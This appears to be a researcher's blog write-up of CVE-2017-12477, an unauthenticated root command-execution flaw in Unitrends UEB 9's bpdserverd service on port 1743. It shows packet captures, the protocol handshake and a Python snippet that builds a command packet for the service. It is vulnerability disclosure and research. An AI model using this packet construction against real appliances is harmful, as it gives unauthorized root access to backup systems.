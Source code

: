 ```yaml
---
layout: post
title: "CVE-2017-12477 - Unitrends root RCE via bpdserverd"
date: 2018-04-20 00:00:01
categories: exploits
---
```


CVE-2017-12477 is a vulnerability affecting Unitrends UEB 9 storage appliances. This vulnerability allows for unauthed root RCE of commands sent to a certain external port. (In practice, it's slightly more complicated than that). It even returns stdout ouput from the commands back to the attacker! It's an interesting vulnerability, and the exploit simply amounts to an alternative client to a service used by the web application.

After spending some time with the UEB 9 web application, it became clear that commands are frequently issued from the web app UI (which is running as 'apache'), but run as 'root' on the applicance.

Running tcpdump on loopback provided a promising lead. First, we get tcpdump running on loopback on the application host, dumping tcp traffic to a pcap;
```
tcpdump tcp -i lo -w /tmp/cap1.pcap
```
Next, we issue the following request to the web UI, with the expectation that it will probably result in a high priv command being issued:
```
POST /api/hosts/?sid=1 HTTP/1.1
Host: 10.20.1.201
AuthToken: djA6ZjgzYWUwOTctYzMxOS00NzAyLTg5YmItZDUwYjlmYjk3ZjdhOjE6L3Vzci9icC9sb2dzLmRpci9ndWlfcm9vdC5sb2c6MA==
Content-Type: application/json
Content-Length: 184

{"name":"zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz","ip":"1.2.3.5","long_name":"zzzzzzzzzzzzzzzzzzzzzzzzzzzzz.zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz","aliases_str":"foo"}
```
Finally, we end the tcp capture and search through the resulting pcap for a bunch of 'z's. Sure enough, we find the packet we're looking for:

{% highlight shell  %}
127.0.0.1.33165 > 127.0.0.1.1743: Flags [P.], length 196
    0x0000:  4500 00f8 4b3b 4000 4006 f0c2 7f00 0001  E...K;@.@.......
    0x0010:  7f00 0001 818d 06cf 88c3 7cbb 5316 ad48  ..........|.S..H
    0x0020:  8018 0100 feec 0000 0101 080a 252b 378c  ............%+7.
    0x0030:  252b 378c a552 002d 0000 00c4 0000 0001  %+7..R.-........
    0x0040:  0000 004c 0000 00b0 636d 635f 6e65 7477  ...L....cmc_netw
    0x0050:  6f72 6b20 686f 7374 2073 6176 6520 2731  ork.host.save.'1
    0x0060:  2e32 2e33 2e34 2720 2731 2e32 2e33 2e34  .2.3.4'.'1.2.3.4
    0x0070:  2720 277a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  '.'zzzzzzzzzzzzz
    0x0080:  7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  zzzzzzzzzzzzzzzz
    0x0090:  2e7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  .zzzzzzzzzzzzzzz
    0x00a0:  7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  zzzzzzzzzzzzzzzz
    0x00b0:  7a27 2027 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  z'.'zzzzzzzzzzzz
    0x00c0:  7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  zzzzzzzzzzzzzzzz
    0x00d0:  7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  zzzzzzzzzzzzzzzz
    0x00e0:  7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a 7a7a  zzzzzzzzzzzzzzzz
    0x00f0:  2720 2766 6f6f 2700                      '.'foo'.
{% endhighlight  %}

This looks pretty good - Here's the command we expected to be issued by the web app, being sent to a listener on 1743. Even better, it looks like this port is externally accessable:

{% highlight shell  %}
[root@VMware-UB ~]# netstat -tulpn
...
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address    Foreign Address     State       PID/Program name 
tcp        0      0 :::1743          :::*                LISTEN      2018/xinetd         
...
udp        0      0 :::1743          :::*                            2018/xinetd   
...
{% endhighlight %}

We're not done yet, though, since simply sending this packet to the listener on 1743 does not result in command execution. A look at the larger tcp stream containing our command packet reveals a packet sent from the listener on 1743, right after the webapp connected initially. A complete(ish) command sequence looks like this (The example below was selected because the command returns some output):

{% highlight shell  %}
127.0.0.1.33167 > 127.0.0.1.1743: Flags [S], length 0

127.0.0.1.1743 > 127.0.0.1.33167: Flags [P.], length 44
    0x0000:  4500 0060 e086 4000 4006 5c0f 7f00 0001  E..`..@.@.\.....
    0x0010:  7f00 0001 06cf 818f b82a d824 786d 46a1  .........*.$xmF.
    0x0020:  8018 0100 fe54 0000 0101 080a 252b 38ac  .....T......%+8.
    0x0030:  252b 38a2 a541 0001 0000 002c 0000 0002  %+8..A.....,....
    0x0040:  0000 004c 0000 0008 436f 6e6e 6563 7400  ...L....Connect.
    0x0050:  0000 0078 0000 0008 3333 3035 3700 0000  ...x....33057...

127.0.0.1.58700 > 127.0.0.1.33057: Flags [S], length 0

127.0.0.1.33167 > 127.0.0.1.1743: Flags [P.], length 48
    0x0000:  4500 0064 7e05 4000 4006 be8c 7f00 0001  E..d~.@.@.......
    0x0010:  7f00 0001 818f 06cf 786d 46a1 b82a d850  ........xmF..*.P
    0x0020:  8018 0100 fe58 0000 0101 080a 252b 38ac  .....X......%+8.
    0x0030:  252b 38ac a552 002d 0000 0030 0000 0001  %+8..R.-...0....
    0x0040:  0000 004c 0000 001c 636d 635f 6e65 7477  ...L....cmc_netw
    0x0050:  6f72 6b20 686f 7374 6e61 6d65 2069 6e66  ork.hostname.inf
    0x0060:  6f00 0000 

127.0.0.1.1743 > 127.0.0.1.33167: Flags [P.], length 28
    0x0000:  4500 0050 e088 4000 4006 5c1d 7f00 0001  E..P..@.@.\.....
    0x0010:  7f00 0001 06cf 818f b82a d850 786d 46d1  .........*.PxmF.
    0x0020:  8018 0100 fe44 0000 0101 080a 252b 38b5  .....D......%+8.
    0x0030:  252b 38ac a549 0009 0000 001c 0000 0001  %+8..I..........
    0x0040:  0000 0062 0000 0008 3732 3030 0000 0000  ...b....7200....

127.0.0.1.33057 > 127.0.0.1.58700: Flags [P.], length 15
    0x0000:  4500 0043 9cde 4000 4006 9fd4 7f00 0001  E..C..@.@.......
    0x0010:  7f00 0001 8121 e54c 1ef9 a472 5865 1667  .....!.L...rXe.g
    0x0020:  8018 0100 fe37 0000 0101 080a 252b 38db  .....7......%+8.
    0x0030:  252b 38ac 6e61 6d65 2056 4d77 6172 652d  %+8.name.VMware-
    0x0040:  5542 0a                                  UB.
...
{% endhighlight %}

To summarize;

1. Client connects to 1743
2. Server specifies a random, high numbered port
3. Client connects to that random, high numbered port
4. Client sends a command to 1743
5. Server executes command and returns output via the random port

The packet capture shown above is somewhat abridged - both client and server continue to exchange a few packets after the final packet in the sequence shown above, but we don't really care since our command has already been executed. Another thing to note is that while there will be some added complexity involved in setting up another connection, our exploit still only needs to prepare and send a single packet to port 1743.

Our only remaining task, then, is to analyze the command packet and determine how to construct our own data section, which will be accepted by the service on 1743. My informal strategy for doing this is to first get the ui to issue an identical commands multiple times, and see if anything changes from packet to packet, indicating some kind of nonce or count. In this example there's nothing like that. Next, I get the ui to send multiple commands of different lengths, and again check to see what changes from packet to packet; these would usually be things like checksums and length values; This example contains a few fields of this type.

The final packet generator is probably best underestood by simply looking at a piece of the final exploit code:

```python 
cmd_len = chr(len(cmd) + 3)
packet_len = chr(len(cmd) + 23)

packet = '\xa5\x52\x00\x2d'
packet += '\x00' * 3
packet += packet_len
packet += '\x00' * 3
packet += '\x01'
packet += '\x00' * 3
packet += '\x4c'
packet += '\x00' * 3
packet += cmd_len
packet += cmd
packet += '\x00' * 3
```

At this point, we have everything we need to put together the final exploit, available here & here. It's extremely reliable, since we're just using a service on the application server as designed (more or less...), as opposed to causing a crash by way of a memory corruption.

This root RCE is fixed in UEB10, update.

